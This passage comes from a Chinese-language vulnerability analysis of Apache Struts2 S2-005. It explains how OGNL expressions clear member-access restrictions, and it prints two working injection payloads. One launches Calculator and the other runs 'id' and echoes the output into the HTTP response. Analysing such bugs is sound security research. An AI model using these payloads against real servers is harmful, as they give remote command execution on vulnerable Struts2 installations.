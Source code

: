 所以如果要绕过这个版本的限制，首先需要解决的是这个函数的报错问题，看S2-005

## 3. [S2-005](https://cwiki.apache.org/confluence/display/WW/S2-005)

影响版本：struts2.0.0 - 2.1.8.1

S2-005为S2-003的修复绕过，直接分析POC

### POC分析

```java
('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(bla)(bla)&
('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&
('\u0040java.lang.Runtime@getRuntime().exec(\'open\u0020/System/Applications/Calculator.app\')')(bla)(bla)
```

前面S2-003修复部分说到了需要绕过`isAcceptableProperty`函数报错的问题才能继续往下进行函数调用。

从代码上看，只要`excludeProperties`和`acceptProperties`为空，就不会进到正则匹配的环节，所以需要将他们置为空

poc里的第一行做的就是这个事情，将`excludeProperties`置为空集合

这里看一下为什么以`#_memberAccess`的方式可以访问到`OgnlContext`对象的`memberAccess`属性

`ognl.OgnlContext#get`

![image-20200507110201209](/images/talk_about_struts2/image-20200507110201209.png)

从`OgnlContext`上下文获取内容，首先会判断是否在`RESERVED_KEYS`集合里，如果存在，则相应的调用他的getters，如果不存在，则从当前的上下文里去找这个key。

所以`#_memeberAccess`实际获取的是`OgnlContext`的`memeberAccess`属性内容

还有出现变化的地方，由于现在context里是没有response对象可以获取的，所以在处理回显的时候我们需要找另外的方法

```java
(a)(('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(bla))&
(a)(('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla))&
(b)(('\u0023ret\u003d@java.lang.Runtime@getRuntime().exec(\'id\')')(bla))& // 执行命令
(c)(('\u0023dis\u003dnew\u0020java.io.DataInputStream(\u0023ret.getInputStream())')(bla))&
(d)(('\u0023res\u003dnew\u0020byte[2000]')(bla))&
(e)(('\u0023dis.readFully(\u0023res)')(bla))&
(f)(('\u0023writer\u003d@org.apache.struts2.ServletActionContext@getResponse().getWriter()')(bla))&
(g)(('\u0023writer.println(new\u0020java.lang.String(\u0023res))')(bla))& // 获取response，回显数据
(h)(('\u0023writer.flush()')(bla))&
(i)(('\u0023writer.close()')(bla))
```
